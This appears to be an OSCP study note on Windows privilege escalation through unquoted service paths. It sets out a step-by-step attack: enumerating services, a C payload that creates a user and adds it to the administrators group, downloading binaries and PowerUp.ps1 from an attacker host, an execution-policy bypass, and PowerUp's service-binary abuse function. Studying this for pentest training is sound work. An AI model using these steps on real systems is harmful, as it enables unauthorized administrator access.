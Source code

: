 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/7-unquoted-service-paths/","updated":"2024-01-05T11:35:09.496+01:00"}
---
```


- Works when we have write-permissions to a service's main- or sub-directories but cannot replace files within them.
- Services are started with 'CreateProcess' and the parameter 'IpApplicationName'. If the path that follows that parameter contains one or more spaces and is not enclosed within quotes it may be abused for a privesc.
- Paths are read from left to right, and for every space all preceding words are interpreted as executables, and the rest as arguments. Example:
```
C:\Program Files\My Program\My Service\service.exe
---------------------------------------------------
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
- Therefore if that happens an executable with one of those name can be placed an used to privesc.
------------

### Unquoted Service Path Service Privesc:
1. Enumerate running services for misconfigured paths (only works in cmd):
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```
2. Check for write access rights in the service's butchered search order swith 'icacls'.
3. Create malicious binary. Example in C which will create a new user:
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
4. Cross-compile it to an 64-bit .exe for Windows:
```bash
x86_64-w64-mingw32-gcc <file>.c -o <file>.exe
```
5. Serve the binary, download it, and move it to the correct directory:
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move <pre-path> <post-path>
```
6. Restart the service -- win!
-------------------------

### Automatic Unquoted Service Path Privesc with PowerUp:
1. Serve the PowerUp.ps1 on your kali machine.
2. Download the script:
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
```
4. Run the script with bypass:
```
 powershell -ep bypass
 . .\PowerUp.ps1
```
5. Now check for vulerable paths:
```
Get-UnquotedService
```
6. Try to use the built-in AbuseFunction to install a service binary (where name is Service Name listed from above command):
```powershell
Write-ServiceBinary -Name '<servicename>' -Path "C:\Program Files\Enterprise Apps\Current.exe"
```
7. Win!

